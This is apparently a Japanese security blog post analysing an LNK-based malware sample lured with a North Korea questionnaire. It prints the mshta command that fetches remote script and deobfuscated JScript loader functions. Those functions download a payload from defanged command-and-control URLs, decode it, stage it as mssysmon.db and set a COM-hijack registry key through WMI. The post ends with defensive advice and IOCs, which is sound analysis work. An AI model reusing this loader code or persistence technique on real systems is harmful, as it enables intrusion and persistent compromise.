

# 最近流行りのLnkファイルベースのマルウェアを調べる

記事執筆は6/30ですが、6月に入ってのマルウェアはEmotetも含めLnkファイルを利用するタイプと、MSの脆弱性「`Follina`」とかマクロ系が多いと思います。  

最近、AWSなどインフラ系の情報ばかりあげていましたが、そろそろセキュリティ系もやりたいので、今回はこれをやっていきたいと思います。  

### 対象マルウェア  

対象はTwitter上で回ってきた以下のマルウェアです。  
これを選んだ理由はEmotetは一回見ましたし、正直最初以外はたいして動きが変わらないので、それ以外で面白そうなものないかな？ということで見ていきました。  

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">&quot;Online questionnaire-Exploring ways to cooperate with North Korea.rar&quot;: f50cd82717837a5b5fb985c8f080fa3d5cabb05b146aed14e3810ae90fb37e01<br>The .lnk in it: bffacbb0b54a3b1dd6f25686d2486d0a064f5e8eedefb4e572740f7b63ba4fa4<br>🤔<a href="https://twitter.com/ShadowChasing1?ref_src=twsrc%5Etfw">@ShadowChasing1</a> <a href="https://twitter.com/h2jazi?ref_src=twsrc%5Etfw">@h2jazi</a> <a href="https://t.co/gKRv6mxQgx">pic.twitter.com/gKRv6mxQgx</a></p>&mdash; MalwareHunterTeam (@malwrhunterteam) <a href="https://twitter.com/malwrhunterteam/status/1541784815728459779?ref_src=twsrc%5Etfw">June 28, 2022</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>


### どう動くか？  

ざっくりと、以下のように動作します。  
使うものはmshtaを利用して攻撃を行い、mssysmon.dbというペイロードをダウンロード。これを動作させるようにレジストリ操作をしていると思われます。  



### まずはOSINT情報  

VirusTotalで情報を見てみましょう。  
Note: URL等は難読化します  
はじめ見たときは、10社ほどでしたが、さすがに何日か経っていますので、結構なメーカーが検知してます。  

https://www.virustotal.com/gui/file/bffacbb0b54a3b1dd6f25686d2486d0a064f5e8eedefb4e572740f7b63ba4fa4


Behaviorを見ていきますと、以下へのアクセスが存在し、これはmshtaを利用してアクセスしているようです。  
`hxxp://82.221.129[.]104/k0201[.]txt`


検知回避のトリックは使われてますが、以下のようなコードが実行されてます。  

`mshta hxxp://82.221.129[.]104/k0201[.]txt`

次はこのURLの内容ですね。phishcheckを使って実際にアクセスしてみると以下のようになってます。  

https://phishcheck.me/179126/details


つまり、今度は以下URLのスクリプトを取得しているわけです。  
`hxxp://82.221.129[.]104/k0201jo[.]txt`

なるほど。そうなると今度はこのURLを見てみます。そうすると今度はおそらく攻撃コードの実体がありました。  
以下はとりあえずインデントだけやった状態です。  


まぁ当たり前ですが、難読化されています。  
こうなると、今度はこの難読化の解除が必要になりますね。ちなみにこの先の挙動もある程度はvirustotalにものってますが、ここから先はコード解析をした方がよさそうです。  

### マルウェアコードの解析

地道に解読した結果を`kaidoku.txt`としてzipで圧縮して保存しました。
Note: パスワードはinfectedにしてます  

そこまで難しい内容にはなってないようです。基本的に文字列をバラバラにして難読化解除用の関数を使っている形ですね。
ちなみに変数名とかはわかりやすいように変更とかも行ってます。元々はこんなわかりやすい名称ではありませんでした。  

まず、このコードにおいて言わばmain関数といえるものは`IMG_CHECK`になります。  

```js
IMG_CHECK()
```

色々なグローバル変数と関数を定義した後この関数を実行することで悪性挙動がスタートしています。  
では、次にこの関数の大きな流れを追っていきましょう。  
ざっくり以下のように動作しています。  

1. mshtaのWindowを最小にして画面端に移動  
2. フォルダ1の作成(userdata\\qwe)
3. WMIを利用してレジストリの追加
4. HTTPアクセス(どうやらstatuscode=300を正としている様です)
5. inetcacheファイルをチェック  
6. フォルダ1の`mssysmon[.]db`としてコピー
7. フォルダごと、フォルダ2に移動

特徴的なところは以下でしょうか。  

1. HTTPアクセスは300(リダイレクト系)になるようにしている  
2. ファイルの作成とレジストリ操作で終了している  

このため、最初の感染時はほとんど悪性挙動をしていません。これは重要なところですね。  
さて、いくつか実際にコードを見ていきましょう。  
まずは、URLの定義などを見ていきます。

```js
    // 省略
	folder_location="%appdata%\Microsoft\Internet Explorer\UserData\qwe";
	folder_location2="%appdata%\Microsoft\Internet Explorer\UserData\Temp"
	observer_url_32="hxxp://131[.]226[.]4[.]22/manager/VYtpPTc8UE2zG4dH[.]bmp";
	observer_url_64="hxxp://131[.]226[.]4[.]22/manager/JxQpe5T2nCn747UP[.]bmp";
    // 省略
   	var f_loc  =dir_loc["concat"]("\\mssysmon[.]db");
	var f_loc2 =dir_loc2['concat']("\\mssysmon[.]db");
    var reg_inprocsvr32 ="Software\Classes\CLSID\{603D3801-BD81-11d0-A3A5-00C04FD706EC}\InprocServer32";
    // 省略
```

この辺りがファイル作成先やレジストリ操作対象、アクセス先URLなどです。  

さて、まずはレジストリ操作関連を見ていきましょう。これは`Write_Reg`という関数で行っています。  
COM系の処理ですね。これが永続系の処理となると思われます。  

```js
// Write_Reg(0x80000001, reg_inprocsvr32, cpu_arch, dir_loc2, f_loc2);
function Write_Reg(arg1, arg2, arg3, arg4, arg5){
	// SWbemはWMI関連の操作
	SWbemValueSet=new ActiveXObject("WbemScripting.SWbemNamedValueSet");
	SWbemLocator=new ActiveXObject("WbemScripting.SWbemLocator");
	SWbemValueSet["Add"]("__ProviderArchitecture",arg3);
	var wmi_mypc_default=SWbemLocator["ConnectServer"](
					'',"root\\Default",'','','','',0x0,SWbemValueSet);
	var wmi_reg=wmi_mypc_default["Get"]("StdRegProv");
	var reg_create_op=wmi_reg['Methods_']("Createkey")['InParameters'];
	reg_create_op['Hdefkey']=arg1;
	reg_create_op["Ssubkeyname"]=arg2;
	wmi_reg['ExecMethod_']("Createkey", reg_create_op, 0x0, SWbemValueSet);
	reg_create_op=wmi_reg["Methods_"]("SetStringValue")["Inparameters"];
	reg_create_op['Hdefkey']=arg1;
	reg_create_op["Ssubkeyname"]=arg2;
	reg_create_op["Svalue"]=arg5;
	wmi_reg['ExecMethod_']("SetStringValue", reg_create_op, 0x0, SWbemValueSet);
}
```

このため、ファイル作成前にまずはレジストリ登録だけやっています。  
次にURLアクセスがされています。これは`Send_Query`で行われます。ここを見るとステータスは300で応答されるのを想定していることがわかります。  

```js
function send_Query(arg1){
	var http_req=new ActiveXObject("WinHttp.WinHttpRequest.5.1"));
	var http_xml=new ActiveXObject("MSXML2.XMLHTTP.6.0");
	try{
		// 0x20 is x86. 0x40 is x64
		if(arg1==0x20){
			http_req["open"]("GET",observer_url_32,![]);
			http_req["send"]();
			if(http_req['status']>=0x12c){ // 12c is 300
				var res_hdr_loc=http_req["getResponseHeader"]("Location");
				http_xml["open"]("GET", res_hdr_loc,![]);
				http_xml["send"]();
			}else{
				http_xml["open"]("GET", observer_url_32,![]);
				http_xml["send"]();
			}
		}else{
			http_req["open"]("GET", observer_url_64,![]);
			http_req['send']();
			if(http_req["status"]>=0x12c){ // 12c is 300
				var res_hdr_loc=http_req["getResponseHeader"]("Location");
				http_xml["open"]("GET",res_hdr_loc,![]);
				http_xml["send"]();
			}else{
				http_xml["open"]("GET",observer_url_64,![]);
				http_xml["send"]();
			}
		}
	}catch(_0x1a4e1f){
		window["close"]();
	}
}
```

ただ、ステータスコードが300を想定している以上、おそらく処理は完了とはなりません。そのため、inetcacheファイルを見ているのでしょう。  
次はinetcache内のファイルを見て、存在するかどうかをチェックする処理が行われています。これは`FIND_FILE`という関数で処理されています。  
```js
function FIND_FILE(arg1){
	try{
		var INetCache1=wShell["ExpandEnvironmentStrings"]("%userprofile%\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5");
		var INetCache2=wShell["ExpandEnvironmentStrings"]("%userprofile%\AppData\Local\Microsoft\Windows\INetCache\IE");
		var path_list=arg1['split']('/');
		var path_count=0x2;
		var _0x1b83a4='';
		while(path_list[path_count]){
			path_count++;
		}
		var lastpath=path_list[path_count-0x1];
		fnamelist=lastpath[split]('.');
		var find_result=R_FIND(INetCache2,fnamelist[0x0]);
		if(find_result!=''){
			return find_result;
		}else{
			find_result=R_FIND(INetCache1,fnamelist[0x0]);
			if(find_result!=''){
				return find_result;
			}else{
				return '';
			}
		}
	}catch(_0x14b351){
		window["close"]();
	}
}
```

この関数でファイル名が判明し、それを使って`SIZE_CHECK`という関数を使ってテンポラリ用フォルダ(フォルダ1)に保存します。  
ただ、この時にちょっとしたトリックが使われています。おそらく元々はテキストデータとなっています。これをデコードしてバイナリにしているようです。  

```js
function SIZE_CHECK(arg1, arg2){
	try{
		var raw_txtdata;
		try{
			raw_txtdata=fso["OpenTextFile"](arg1,0x1,!![],-0x1);
		}catch(_0xc28659){
			return 0x0;
		}
		var fsize1=fso["getfile"](arg1)["size"];
		var txtinfo=raw_txtdata["Read"](fsize1/0x2);
		// decode filedata
		var decode_size=(txtinfo["charCodeAt"](0x1)&0xffff)+(txtinfo['charCodeAt'](0x2)&0xffff)*0x10000;
		var decode_data=(txtinfo["charCodeAt"](0x1c)&0xffff)+(txtinfo['charCodeAt'](0x1d)&0xffff)*0x10000;
		if(fsize1!=decode_size){
			return 0x0;
		}else{
			COPY_FILE(txtinfo, decode_data, arg2);
			return 0x1;
		}
	}catch(_0x38917d){
		return 0x0;
	}
}
```

さて、これでダウンロードが完了です。テンポラリフォルダから本来のマルウェアに移動させたら完了です。  

```js
SIZE_CHECK(inetcach_file, f_loc);
try{
    fso['MoveFolder'](dir_loc, dir_loc2);
}catch(_0xf01aa6){
    window["close"]();
}
window["close"]();
```

さて、これで終了です。このダウンロードしたマルウェアの内容までは私の方では解析は行っていません。  

### 終わりに

mshtaを使ったマルウェアはとても多いので、個人的にはmshtaは使わない方がいいのではないかな、と思ってます。
できれば、起動できないようにするとかmshtaからの外部アクセスを禁止する、または最低でもmshtaの引数に**http**があったら検出するなどをした方がいいと思いますね。  

あと、個人的にはCOM系（COMハイジャックとか）の動作をあまり詳しくないのですよね。。この辺りは勉強が必要だな、と痛感します。  

最後に、IOC情報をまとめておきます。  
ありがとうございました。

### IOC情報

* IPアドレス  
```
131[.]226[.]4[.]22
82[.]221[.]129[.]104
```

* URL  
```
hxxp://82[.]221[.]129[.]104/k0201[.]txt
hxxp://82[.]221[.]129[.]104/k0201jo[.]txt
```

* ファイル名  
```
%appdata%\Microsoft\Internet Explorer\UserData\qwe\mssysmon[.]db
%appdata%\Microsoft\Internet Explorer\UserData\Temp\mssysmon[.]db
```

* ファイルハッシュ  
```
lnkファイル: bffacbb0b54a3b1dd6f25686d2486d0a064f5e8eedefb4e572740f7b63ba4fa4
bmpファイル: a995f4e4e5bec985ea974dac2a65056e7ab9f2b80430d94857530bedef5e74f6
mssysmon.db: edec420761cd95ba706c9f50f29bbb76786d5279c4ada162f513e0cb1fa4cf84
```
Note: virustotalの情報をまとめただけです。  

* レジストリ  
```
キー：Software\Classes\CLSID\{603D3801-BD81-11d0-A3A5-00C04FD706EC}\InprocServer32
Hdefkey=0x80000001
Ssubkeyname="%appdata%\Microsoft\Internet Explorer\UserData\Temp"
Svalue=mssysmon[.]db
```

### 参考サイト
* https://www.virustotal.com/gui/file/edec420761cd95ba706c9f50f29bbb76786d5279c4ada162f513e0cb1fa4cf84
* https://passing.breeze.cc/mt/archives/2009/07/jscript-wmi.html
* https://docs.microsoft.com/ja-jp/windows/win32/wmisdk/constructing-inparameters-objects
* https://phishcheck.me/179126/details

